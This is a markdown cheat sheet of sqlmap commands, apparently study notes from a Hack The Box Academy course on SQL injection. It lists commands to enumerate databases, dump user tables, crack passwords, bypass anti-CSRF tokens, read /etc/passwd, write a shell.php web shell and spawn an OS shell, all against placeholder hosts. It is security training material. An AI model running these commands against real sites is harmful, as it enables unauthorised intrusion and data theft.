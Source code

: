 # SQLMAP Essentials  

| **Command** | **Description** |
| ----------- | ----------- |
| `sqlmap -h` | View the basic help menu |
| `sqlmap -hh` | View the advanced help menu [Getting Started with SQLMap](https://academy.hackthebox.com/module/58/section/694) |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch` | Run `SQLMap` without asking for user input using the `batch` switch. |
| `sqlmap output logging information definitions` | [SQLMap Output Description](https://academy.hackthebox.com/module/58/section/696) |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'` | `SQLMap` with POST request |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'` | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt` | Passing an HTTP request file to `SQLMap` [To run SQLMap with an HTTP request file, we use the -r flag, as follows:](https://academy.hackthebox.com/module/58/section/517) |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'` | Specifying a cookie header |
| `sqlmap -u www.target.com --data='id=1' --method PUT` | Specifying a PUT request |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt` | Store traffic to an output file [Handling SQLMap Errors](https://academy.hackthebox.com/module/58/section/695) |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch` | Specify verbosity level |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"` | Specifying a prefix or suffix [Attack Tuning](https://academy.hackthebox.com/module/58/section/526) |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5` | Specifying the level and risk |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb` | Table enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Table/row enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --schema` | Database schema enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user` | Searching for data |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch` | Password enumeration and cracking |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass [Anti-CSRF Token Bypass switch](https://academy.hackthebox.com/module/58/section/530) |
| `sqlmap --list-tampers` | List all tamper scripts |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba` | Check for DBA privileges |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"` | Reading a local file |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell` | Spawning an OS shell |

# Exercise Cases  

